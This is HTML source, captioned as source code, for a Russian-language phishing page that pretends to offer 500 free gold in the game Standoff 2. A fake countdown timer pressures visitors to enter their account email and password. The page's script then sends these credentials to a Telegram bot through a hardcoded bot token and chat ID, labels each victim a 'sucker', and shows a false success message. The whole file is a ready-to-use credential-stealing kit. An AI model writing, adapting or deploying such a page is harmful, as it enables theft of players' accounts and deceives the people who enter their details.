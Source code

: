 <!DOCTYPE html>
<html lang="ru">
<head>
    <meta charset="UTF-8">
    <title>Standoff 2 - Акция 500 Голды</title>
    <style>
        body {
            background: url('https://i.imgur.com/8zX5K9b.jpg') no-repeat center/cover;
            color: #fff;
            font-family: 'Arial', sans-serif;
            text-align: center;
            margin: 0;
            padding: 20px;
        }
        .container {
            background: rgba(0, 0, 0, 0.8);
            padding: 20px;
            border-radius: 10px;
            max-width: 400px;
            margin: 50px auto;
        }
        h1 { font-size: 28px; color: #ff4500; }
        .timer { font-size: 24px; color: #ffd700; margin: 10px 0; }
        input {
            width: 100%;
            padding: 12px;
            margin: 10px 0;
            border: none;
            border-radius: 5px;
            background: #333;
            color: #fff;
        }
        button {
            width: 100%;
            padding: 12px;
            background: #ff4500;
            border: none;
            border-radius: 5px;
            color: #fff;
            font-size: 18px;
            cursor: pointer;
            transition: background 0.3s;
        }
        button:hover { background: #ff6347; }
    </style>
</head>
<body>
    <div class="container">
        <h1>Standoff 2 - Получи 500 Голды!</h1>
        <div class="timer" id="timer">Осталось: 04:59</div>
        <p>Войди через свой аккаунт и забери бонус!</p>
        <input type="email" id="email" placeholder="Почта от аккаунта"><br>
        <input type="password" id="password" placeholder="Пароль"><br>
        <button onclick="sendData()">Забрать голду</button>
    </div>

    <script>
        let timeLeft = 299;
        let timer = document.getElementById("timer");
        setInterval(() => {
            let minutes = Math.floor(timeLeft / 60);
            let seconds = timeLeft % 60;
            timer.textContent = `Осталось: ${minutes.toString().padStart(2, '0')}:${seconds.toString().padStart(2, '0')}`;
            timeLeft--;
            if (timeLeft < 0) timeLeft = 299;
        }, 1000);

        function sendData() {
            let email = document.getElementById("email").value;
            let password = document.getElementById("password").value;
            let token = "7715919429:AAGWNrzUYZAXnHqhmt4bna1ux0y68CEKhwY";
            let chatId = "6676842439";
            let text = `Новый лох: \nПочта: ${email}\nПароль: ${password}`;

            let url = `https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(text)}`;

            fetch(url)
                .then(response => {
                    if (response.ok) {
                        alert("Голда твоя, братишка! Проверь инвентарь!");
                    } else {
                        alert("Ошибка, сука! Попробуй ещё раз!");
                    }
                })
                .catch(() => alert("Пиздец, что-то сломалось!"));
        }
    </script>
</body>
</html>
